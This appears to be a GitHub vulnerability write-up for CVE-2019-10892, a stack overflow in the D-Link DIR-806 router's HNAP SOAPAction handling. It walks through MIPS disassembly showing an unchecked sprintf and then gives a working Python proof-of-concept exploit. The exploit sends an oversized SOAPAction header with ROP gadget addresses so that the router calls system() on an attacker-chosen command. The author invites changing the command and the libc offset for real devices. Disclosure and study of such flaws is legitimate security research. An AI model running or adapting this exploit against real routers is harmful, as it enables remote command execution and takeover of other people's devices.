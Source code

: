 # DIR-806_Stack Overflow to Run Shellcode
### CVE-2019-10892

The fireware is the lasted version of DIR-806 in DLINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
just like the start of:
```
https://github.com/Kirin-say/Vulnerabilities/blob/master/DIR-806_Code_Injection.md
```
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
then it will call the sprintf function but it won't check the length of the strings that it got by strrchr,and it store it in the stack:
```
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
```
so that we can overflow the $s0-s7 and $ra when hnap_main return:
```
.text:004124C4                 lw      $ra, 0x248+var_4($sp)
.text:004124C8                 lw      $s7, 0x248+var_8($sp)
.text:004124CC                 lw      $s6, 0x248+var_C($sp)
.text:004124D0                 lw      $s5, 0x248+var_10($sp)
.text:004124D4                 lw      $s4, 0x248+var_14($sp)
.text:004124D8                 lw      $s3, 0x248+var_18($sp)
.text:004124DC                 lw      $s2, 0x248+var_1C($sp)
.text:004124E0                 lw      $s1, 0x248+var_20($sp)
.text:004124E4                 lw      $s0, 0x248+var_24($sp)
.text:004124E8                 jr      $ra
.text:004124EC                 addiu   $sp, 0x248
```
If we make a rop chain in stack,it will finally call the system(our cmd)
## POC
```
from pwn import *
import requests
import sys
def get_payload():
  cmd="reboot;".ljust(30,"a")
  libc_addr=0x7679BA60-0x002aa60
  payload="http://purenetworks.com/HNAP1/GetDeviceSettings/"
  payload+="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"  
  payload+="aaaa"*6
  payload+=p32(libc_addr+0x003E204)[::-1]#s6
  payload+=p32(libc_addr+0x052510)[::-1]#s7
  payload+=p32(libc_addr+0x0F5B4)[::-1]#ra->get cmd in s4->jar s6
  payload+="aaaa"*4
  payload+=cmd
  return payload
data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    fake_cmd=get_payload()
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    log.info("Kirin-say PWN")
```
you can also edit the cmd to run different shell,but you should also edit the libc_addr because I write this POC by qemu,so you should edit offset of libc.so.0 in real environment.
 For example(the router reboot successfully) 
![Success](https://upload-images.jianshu.io/upload_images/7434375-a0bda011a271ec24.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
